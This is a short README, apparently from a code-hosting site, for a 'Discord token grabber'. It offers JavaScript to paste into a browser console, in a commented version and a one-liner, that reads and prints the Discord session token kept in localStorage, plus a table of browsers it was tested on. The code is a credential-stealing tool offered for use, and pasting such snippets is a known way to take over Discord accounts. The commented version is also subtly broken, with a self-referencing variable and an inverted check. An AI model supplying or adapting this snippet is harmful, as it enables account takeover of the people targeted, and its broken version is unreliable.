 # jsConsole-discordTokenGrabber

Getting open with javascript console.

Who knows what you are going to do with this code.

### Readable version

```js
function getToken() {
  // start a new tab/window under the same url
  let window = window.open();
  
  // check if the popup/new window opened successfully
  if(window || !window.document) {
    return console.error('Unable to get token: popup blocked!');
  }
  
  // fooling localStorage trick
  window.dispatchEvent(new Event('beforeunload'));
  
  // log token
  console.log(window.localStorage.token);
  
  // clean up
  window.close();
};

getToken()
```

### One-liner pasta for javascript console

```js
(function(){let w=window.open();if(!w||!w.document)return console.error('Unable to get token: popup blocked!');window.dispatchEvent(new Event('beforeunload'));console.log(w.localStorage.token);w.close()}());
```

### Tested browsers:

| Browsers       | Supported    |
| :------------- | -----------: |
| Chrome         | :heavy_check_mark:   | 
| Safari         | :x: |
